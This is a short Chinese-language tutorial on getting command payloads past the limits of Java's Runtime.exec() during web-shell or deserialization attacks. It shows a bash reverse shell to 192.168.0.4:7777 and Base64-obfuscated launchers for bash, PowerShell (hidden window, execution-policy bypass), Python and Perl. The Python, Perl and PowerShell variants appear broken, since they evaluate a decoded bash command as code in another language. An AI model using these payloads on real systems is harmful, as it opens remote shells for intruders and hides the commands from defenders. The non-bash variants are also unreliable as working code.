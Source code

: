 
有时，通过Runtime.getRuntime().exec()执行命令的有效负载有时会失败。

使用Web Shell，反序列化利用或通过其他媒介时，可能会发生这种情况。

有时这是因为重定向和管道字符的使用在启动过程的上下文中没有意义。

例如，在shell中执行ls> dir_listing会将当前目录的列表输出到名为dir_listing的文件中。但是在exec()函数的上下文中，该命令将被解释为获取>和dir_listing目录的列表。

有时，StringTokenizer类会破坏其中包含空格的参数，该类将命令字符串按空格分隔。像ls“我的目录”之类的东西将被解释为ls“我的目录”。

借助Base64编码，下面的转换器可以帮助减少这些问题。它可以通过调用Bash或PowerShell来制作管道并重新定向，还可以确保参数内没有空格。

原命令
```
bash -i >& /dev/tcp/192.168.0.4/7777 0>&1
```
编码后,中间的字符均为“base64”编码。
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}
#bash
 
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc YgBhAHMAaAAgAC0AaQAgAD4AJgAgAC8AZABlAHYALwB0AGMAcAAvADEAOQAyAC4AMQA2ADgALgAwAC4ANAAvADcANwA3ADcAIAAwAD4AJgAxAA==
#powershell
 
python -c exec('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNC83Nzc3IDA+JjE='.decode('base64'))
#python
 
perl -MMIME::Base64 -e eval(decode_base64('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNC83Nzc3IDA+JjE='))
#perl
```